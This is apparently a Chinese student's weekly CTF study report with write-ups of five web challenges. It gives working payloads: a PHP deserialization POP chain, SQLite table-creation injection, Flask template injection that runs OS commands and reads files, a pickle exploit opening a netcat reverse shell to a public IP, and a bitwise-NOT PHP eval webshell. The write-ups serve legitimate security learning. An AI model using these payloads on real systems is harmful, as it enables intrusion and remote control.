




# Nepnep学习报告 web第一周

- BUU 5道wp
- sqlite 学习
- SSTI 学习 

## [GYCTF2020]Easyphp

/www.zip 源码

然后主要是反序列化, 在 lib.php 里面, 出发口在 update.php 里面

```php
$users->update();
```

从 User 的 update 方法跟进

```php
$Info=unserialize($this->getNewinfo());
```

先会进入 getNewinfo 方法进行序列化和安全函数检测

```php
return safe(serialize(new Info($age,$nickname)));
```

safe 方法

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
```

然后反序列化结束后进入 UpdateHepler 对象

```php
$updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
```

然后这里通过 `__destruct()` 可以触发 `__toString` 函数

```php
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->sql;
    }
}
```

`__toString` 函数在 User 对象中

```php
public function __toString()
{
    $this->nickname->update($this->age);
    return "0-0";
}
```

nickname 可控, 调用类中不存在的函数触发 `__call`

而`__call` 函数在 Info 对象中

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }   
    public function __call($name,$argument){
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

CtrlCase 可控, 调用 dbCtrl 对象中的 login 函数, `$argument[0]` 传入的值为 age 的值, 所以 sql 查询语句可控, 然后伪造密码

```
select 1,'c4ca4238a0b923820dcc509a6f75849b' from user where username=?
```

在 sql 查询语句中会伪造出 id为1, password 为 c4ca4238a0b923820dcc509a6f75849b 的数据



然后我们的用户名是 admin, POP链就形成了, 整理如下

```php
index.php?action=update
↓↓↓
class User -> update()
↓↓↓
class UpdateHelper -> __destruct()
↓↓↓
class User -> __toString()
↓↓↓
class Info -> __call()
↓↓↓
class dbCtrl -> login()
↓↓↓
admin 伪造成功
```

建立 exp.php

```php
<?php
class User {
    public $age = 'select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?';
    public $nickname;
    public function __construct($nickname) {
        $this->nickname = $nickname;
    }
}

class Info {
    public $CtrlCase;
    public function __construct($CtrlCase) {
        $this->CtrlCase = $CtrlCase;
    }
}

Class UpdateHelper{
    public $sql;
    public function __construct($sql) {
        $this->sql=$sql;
    }
}

class dbCtrl {
    public $name = 'admin';
    public $password = '1';
}

$a = new dbCtrl();
$b = new Info($a);
$c = new User($b);
$d = new UpdateHelper($c);

for($i = 0; $i < 263; $i++){
    $char .= 'union';
}

echo $char . '";s:8:"CtrlCase";' . serialize($d) . '}';
```

本地调试直接通过 age 或者 nickname 传入会发现整个一长串会被当作 nickname 的字符串, 最后无法逃逸出来成为对象使得 `$Info` 为 false, 所以我们需要通过反序列化逃逸, union 每次逃逸一个字符比较好数所以采用 union 逃逸, 逃逸的字符串如下

```
";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}
```

一共 263 个字符, 经过转义以后最终是 1578 个字符, 这里有两个易错点

**易错点1**

`s:8:"CtrlCase"` 赋值是 `O:` 的对象, 不用重复赋值

**易错点2**

sql 查询语句里面需要使用双引号不然无法通过

最终 payload

```
unionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunionunion";s:8:"CtrlCase";O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":1:{s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}}
```

在 `/index.php?action=update` post传入 `age` 和 `nickname` 即可 ( `nickname` 传入反序列化)

输入成功后 admin 作为用户登录账号 (密码随意) 即可获得 flag

其实所有方法做下来我们的目的就是拿到 admin 的token

```php
$_SESSION['token']=$this->name;
```

也就是为什么登录需要用户名为 admin 的原因

## [Zer0pts2020]phpNantokaAdmin

sqlite 有四种创表的方式

```
select 'id' from users;
select "id" from users;
select `id` from users;
select [id] from users;
```

**CREATE TABLE … AS SELECT Statements**

> "CREATE TABLE… AS SELECT" 语句基于 SELECT 语句的结果创建并填充数据库表。该表的列数与 SELECT 语句返回的行数相同
>
> 每个列的名称与 SELECT 语句的结果集中相应列的名称相同。每个列的声明类型由 SELECT 语句结果集中相应表达式的表达式亲和类型确定
>
> 使用 create table as 创建的表**最初由 SELECT 语句返回的数据行填充**, 按照 SELECT 语句返回行的顺序, 以连续升序的 rowid 值 (从1开始) 进行分配

我们能这样构造语句：

```sqlite
CREATE TABLE landv as select sql [(dummy1 TEXT, dummy2 TEXT, `whatever you want` ] from sqlite_master;);
--前面说过, [] 可用作注释, 也就是说, 上面语句等价为
CREATE TABLE landv as select sql from sqlite_master;
--landv 这张由用户创建的表就会被 select 语句返回的数据行填充
```

例如这题

```php
$sql = "CREATE TABLE {$table_name} (";
$sql .= "dummy1 TEXT, dummy2 TEXT";
for ($i = 0; $i < count($columns); $i++) {
    $column = (string) ($columns[$i]['name'] ?? '');
    $type = (string) ($columns[$i]['type'] ?? '');}
$sql .= ', ';
$sql .= "`$column` $type";
```

就是一个建立表的拼接, 完整语句

```sqlite
CREATE TABLE {$table_name} (dummy1 TEXT, dummy2 TEXT,`$column` $type);
```

把中间那一串都当作字段名然后再让表返回输入需要的数据, 也就是

```
CREATE TABLE f as select sql [ (dummy1 TEXT, dummy2 TEXT,`ricky` ] from sqlite_master;
成功把 (dummy1 TEXT, dummy2 TEXT,`ricky` 当作别名, 然后字段数据中存的是 select sql from sqlite_master; 执行的结果
```

得到结果



然后再次注入得到字段数据

```
CREATE TABLE f as select flag_2a2d04c3 [ (dummy1 TEXT, dummy2 TEXT,`ricky` ] from flag_bf1811da;
```

得到 flag



payload

```
table_name=f as select sql[&columns[0][name]=ricky&columns[0][type]=] from sqlite_master;

table_name=f as select flag_2a2d04c3[&columns[0][name]=ricky&columns[0][type]=] from flag_bf1811da;
```

## [pasecactf_2019]flask_ssti

```
def encode(line, key, key2):
    return ''.join(chr(x ^ ord(line[x]) ^ ord(key[::-1][x]) ^ ord(key2[x])) for x in range(len(line)))

app.config['flag'] = encode('', 'GQIS5EmzfZA1Ci8NslaoMxPXqrvFB7hYOkbg9y20W34', 'xwdFqMck1vA0pl7B8WO3DrGLma4sZ2Y6ouCPEHSQVT5'
```

用了 python, 猜测考的是 SSTI

```
{{7*7}}
```

查看 config

```
{{config}}
```

过滤了下划线, 单引号, 点, 测试后直接读文件

```
{{()["\x5f\x5fclass\x5f\x5f"]["\x5f\x5fmro\x5f\x5f"][1]["\x5f\x5fsubclasses\x5f\x5f"]()[342]["\x5f\x5finit\x5f\x5f"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("ls")["read"]()}}
```

读取 flag

```
{{()["\x5F\x5Fclass\x5F\x5F"]["\x5F\x5Fbases\x5F\x5F"][0]["\x5F\x5Fsubclasses\x5F\x5F"]()[91]["get\x5Fdata"](0, "/proc/self/fd/3")}}
```

## [watevrCTF-2019]PickleStore

> Pickle反序列化
>
> 使用pickle.loads()和base64对这串字符进行解码反序列化
>
> 利用Pickle反序列化exp反弹shell

先解码反序列化

```python
import pickle
import base64
code = input("base64:")
print(pickle.loads(base64.b64decode(code)))
```

然后利用 pickle 制作反弹shell 的 pickle 序列化

```python
import base64
import pickle
class A(object):
    def __reduce__(self):
        return (eval, ("__import__('os').system('nc 公网ip 端口 -e/bin/sh')",))
a = A()
print(base64.b64encode(pickle.dumps(a)))
```

然后公网监听 get flag

## [极客大挑战 2019]RCE ME

源码

```php
<?php
error_reporting(0);
if(isset($_GET['code'])){
$code=$_GET['code'];
if(strlen($code)>40){
    die("This is too Long.");}
if(preg_match("/[A-Za-z0-9]+/",$code)){
    die("NO.");}
 @eval($code);}
else {
    highlight_file(__FILE__);
}
?>
```

取反RCE (phpinfo行得通于是上传一句话木马)

```php
<?php
$p = urlencode(~'phpinfo');
echo '(~'.$p.')();';
?>
// (~%8F%97%8F%96%91%99%90)(); 
<?php
$a='assert';
$b=urlencode(~$a);
$c='(eval($_POST["cmd"]))';
$d=urlencode(~$c);
echo '(~'.$b.')(~'.$d.');';
?>
// (~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%DD%9C%92%9B%DD%A2%D6%D6);
```

蚁剑连接后发现根目录下有flag和readflag两个文件,需要用readflag读flag

直接执行/readflag会提示ret=127, 用蚁剑插件 PHP_GC_UAF 执行 /readflag



## 小结

**SSTI**

flask 的常见可用类

```
75 <class '_frozen_importlib._ModuleLock'>
76 <class '_frozen_importlib._DummyModuleLock'>
77 <class '_frozen_importlib._ModuleLockManager'>
78 <class '_frozen_importlib._installed_safely'>
79 <class '_frozen_importlib.ModuleSpec'>
91 <class '_frozen_importlib_external.FileLoader'>
92 <class '_frozen_importlib_external._NamespacePath'>
93 <class '_frozen_importlib_external._NamespaceLoader'>
95 <class '_frozen_importlib_external.FileFinder'>
103 <class 'codecs.IncrementalEncoder'>
104 <class 'codecs.IncrementalDecoder'>
105 <class 'codecs.StreamReaderWriter'>
106 <class 'codecs.StreamRecoder'>
128 <class 'os._wrap_close'>
129 <class '_sitebuiltins.Quitter'>
130 <class '_sitebuiltins._Printer'>
```

确定模板注入后先寻找可用类

```
{{''.__class__.__mro__[1].__subclasses__()}}

__class__        返回调用的参数类型
__mro__          此属性是在方法解析期间寻找基类时考虑的类元组
__subclasses__() 返回object的子类
```

然后再进行命令执行

```
{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls").read()')}}
```

**RCE**

取反RCE

**sqlite**

创表注入